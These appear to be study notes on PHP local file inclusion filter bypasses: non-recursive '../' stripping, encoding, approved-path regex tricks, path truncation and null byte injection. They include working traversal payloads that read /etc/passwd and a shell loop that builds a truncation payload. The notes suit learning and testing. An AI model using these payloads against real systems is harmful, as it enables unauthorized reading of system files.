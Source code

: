 ```php
$language = str_replace('../', '', $_GET['language']);
```
- not `recursively removing` the `../` substring,still vulnerable
- `....//....//....//....//etc/passwd` or `..././` or `....\/` or `....////`


### Encoding
- web application did not allow `.` and `/` URL encode `../` into `%2e%2e%2f`


### Approved Paths

```php
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```
- checks if the input contains languages or illegal path
- to bypass this `./languages/../../../../etc/passwd`

### Appended Extension

- web applications append an extension to our input string (e.g. `.php`)

##### Path Truncation

- earlier versions of PHP
	- strings have a ==maximum== length of ==4096== characters , more than that ==truncated==( any characters after the maximum length will be ignored)
- `////etc/passwd` =>` /etc/passwd`
- `/etc/./passwd` => `/etc/passwd`
- `/etc/passwd/.` => `/etc/passwd`

**Bypass Appended Extension**
- PHP limits strings to 4096 characters.
- Adding `.php` to a long string can be cut off.
- Start the path with a non-existent directory for this to work.

```url
?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
```
- to create the above 

```shell
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
```

##### Null Bytes

- PHP versions 5.5 vulnerable to ==null byte injection== 
- adding a null byte (`%00`) at the end of the string would terminate the string



